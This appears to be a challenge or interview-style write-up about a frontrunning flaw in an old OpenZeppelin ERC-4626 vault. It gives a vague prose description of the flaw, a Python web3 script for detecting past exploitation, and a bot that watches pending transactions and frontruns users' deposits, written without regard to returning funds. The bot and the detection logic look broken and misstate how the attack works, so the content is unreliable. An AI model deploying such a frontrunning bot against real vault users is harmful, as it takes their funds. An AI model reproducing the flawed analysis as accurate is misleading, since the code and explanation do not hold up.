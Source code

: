 # Vault - Tier 1
You are looking through an old version of the OpenZeppelin implementation of ERC-4626 and notice a vulnerability that requires frontrunning an innocent user. You have been granted a large amount of ETH (say e.g. 1k ETH, but you are free to choose the amount :) ) and want to set up a whitehat bot to execute this exploit and return the funds to the user.


- a) Describe the vulnerability and the payoffs for an attacker.

The vulnerability in this older version of OpenZeppelin's ERC-4626 implementation seems to come from how the vault calculates share-to-asset conversions during deposits and withdrawals. It’s prone to a frontrunning attack, where someone can jump ahead of an innocent user’s transaction to manipulate the vault's state. If someone deposits right before the victim, they could make the pool less favorable for the victim, leading to an unfair distribution of assets or shares.

It is profitable for attackers because they can extract value from the victim. By depositing or withdrawing strategically, they could take a larger share of the pool’s assets or force the victim to get fewer assets in return for their shares. This  lets them profit by exploiting how the vault calculates balances in real time.

- b)  Produce code that can check if this vulnerability has occurred in the past and determine how much value was lost, if any.

from web3 import Web3
from datetime import datetime

# node
infura_url = "https://mainnet.infura.io/v3/PROJECT_ID"
w3 = Web3(Web3.HTTPProvider(infura_url))

vault_address = ""
vault_abi = []
vault_contract = w3.eth.contract(address=vault_address, abi=vault_abi)

def check_past_exploits(start_block, end_block):
    exploit_count = 0
    total_loss = 0

    for block in range(start_block, end_block + 1):
        block_data = w3.eth.get_block(block, full_transactions=True)
        for tx in block_data.transactions:
            if tx.to and tx.to.lower() == vault_address.lower():
                try:
                    tx_receipt = w3.eth.get_transaction_receipt(tx.hash)
                    logs = vault_contract.events.Deposit().processReceipt(tx_receipt)
                    
                    for log in logs:
                        user = log['args']['owner']
                        shares = log['args']['shares']
                        assets = log['args']['assets']

                        # Calculate ratio
                        expected_ratio = vault_contract.functions.totalAssets().call() / \
                                         vault_contract.functions.totalSupply().call()
                        actual_ratio = assets / shares

                        if actual_ratio < expected_ratio * 0.95:  # Arbitrary threshold for frontrunning
                            print(f"Potential exploit in block {block} by user {user}")
                            exploit_count += 1
                            total_loss += (expected_ratio - actual_ratio) * shares

                except Exception as e:
                    print(f"Error processing transaction {tx.hash.hex()}: {e}")

    print(f"Exploits detected: {exploit_count}, Total value lost: {total_loss} ETH")
    return exploit_count, total_loss

check_past_exploits(START_BLOCK, END_BLOCK)


- c)  Write code for the bot that can carry out the exploit (don’t worry about returning user funds).

import time
from web3 import Web3

infura_url = "https://mainnet.infura.io/v3/PROJECT_ID"
w3 = Web3(Web3.HTTPProvider(infura_url))

vault_address = ""
vault_abi = []
vault_contract = w3.eth.contract(address=vault_address, abi=vault_abi)

bot_private_key = "KEY"
bot_address = w3.eth.account.privateKeyToAccount(bot_private_key).address

def exploit_opportunity():
    while True:
        # Fetch pending transactions
        mempool = w3.eth.get_block('pending', full_transactions=True)

        for tx in mempool.transactions:
            if tx.to and tx.to.lower() == vault_address.lower():
                try:
                    # Decode transaction and detect vulnerability
                    decoded_tx = vault_contract.decode_function_input(tx.input)
                    function_name, params = decoded_tx

                    if function_name == "deposit":
                        # Calculate potential gains
                        shares = params['shares']
                        assets = params['assets']
                        expected_ratio = vault_contract.functions.totalAssets().call() / \
                                         vault_contract.functions.totalSupply().call()

                        if assets / shares < expected_ratio * 0.95:
                            print("Exploit opportunity detected!")

                            # Prepare exploit transaction
                            tx = {
                                'from': bot_address,
                                'to': vault_address,
                                'value': Web3.toWei(10, 'ether'),  # Adjust value as needed
                                'gas': 300000,
                                'nonce': w3.eth.get_transaction_count(bot_address),
                                'gasPrice': w3.eth.gas_price,
                            }
                            signed_tx = w3.eth.account.sign_transaction(tx, bot_private_key)
                            tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
                            print(f"Exploit transaction sent: {tx_hash.hex()}")

                except Exception as e:
                    print(f"Error analyzing transaction: {e}")

        time.sleep(1)

exploit_opportunity()

